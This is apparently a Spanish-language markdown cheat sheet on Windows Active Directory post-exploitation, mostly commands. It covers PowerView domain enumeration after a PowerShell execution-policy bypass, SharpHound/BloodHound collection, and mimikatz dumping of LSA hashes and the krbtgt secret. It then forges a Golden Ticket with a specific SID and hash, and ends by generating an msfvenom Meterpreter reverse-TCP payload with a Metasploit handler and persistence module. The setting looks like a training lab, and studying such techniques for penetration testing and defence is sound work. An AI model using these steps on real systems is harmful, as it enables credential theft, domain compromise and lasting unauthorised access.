

# Herramientas para Post Explotación

## Más recursos
https://blog.harmj0y.net/
https://adsecurity.org/?page_id=1821
https://metasploit.help.rapid7.com/docs/about-post-exploitation
http://www.pentest-standard.org/index.php/Post_Exploitation
https://offsec.red/mimikatz-cheat-sheet/
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

## Herramientas usadas
https://powersploit.readthedocs.io/en/latest/
https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html
https://github.com/gentilkiwi/mimikatz


## Powerview

Usar Powershell y ejecutar powerview.ps1
```
powershell -ep bypass
powerview.ps1
```

**Informacion de usuarios**
```
Get-Netuser | select cn
Get-Netuser | select name, objectsid
Get-UserProperty -Properties lastlogon
```

**Informacion de los grupos**
```
Get-NetGroup -GroupName *admin*
Get-NetGroup -AdminCount
get-netgroup -username admin2
get-netgroupMember -groupName "Administrators"
```

**Obtener Informacion de carpetas compartidas**
```
Invoke-ShareFinder 
Get-NetShare 
```

**btener las computadoras en el dominio**
```
# Todos
Get-NetComputer 

# Activos
Get-NetComputer -ping

# Información detallada de cada computadora en el dominio
Get-NetComputer -FullData 
Get-NetComputer -FullData | select operatingsystem 
```
**Información del dominio**
```
Get-NetDomain 
Get-NetDomainController 
Get-DomainSID
Get-DomainPolicy
```

**Mas comandos**
```
Find-LocalAdminAccess
Invoke-EnumerateLocalAdmin
Get-NetGPO
Get-NetLoggedOn
Get-NetRDPSession
```

**Obtener información de cada comando**
> `Help <comando>`


## BloodHound
Usar Powershell y ejecutar sharphound.ps1
> `.\Downloads\SharpHound.exe`

Obtener el archivo para bloodhound
> `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`

Ejecutar bloodhound
> `bloodhound`

## mimikatz

Usar Powershell y ejecutar `mimikatz.exe`
> `.\Downloads\mimikatz.exe`

Asegurarse de que la salida sea "Privilegio '20' ok
> `privilege::debug `

Obtener logs
> `log <FILENAME>`

Obtener los hashes
> `lsadump::lsa /patch`

Obtener identificadores necesarios para luego crear el `Golden Ticket`
> `lsadump::lsa /inject /name:krbtgt`



Basado en los datos obtenidos previamente( y que se muestran en la imagen) crear el `Golden Ticket` 
> `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`

Usar el Ticket dorado para acceder a otra maquina

Abrir un nuevo símbolo del sistema con privilegios elevados para todas las máquinas
misc::cmd

## Mantener acceso

Se crea un payload, se transfiere a la máquina victima y se ejecuta
> `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe`

Se configura el exploit
```
# se establece la conexion con un reverse tcp shell
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
run -z

# se genera persistencia  haciendo uso de la sesion creada previamente
use exploit/windows/local/persistence
sessions id
set session <ID>
run -z
```
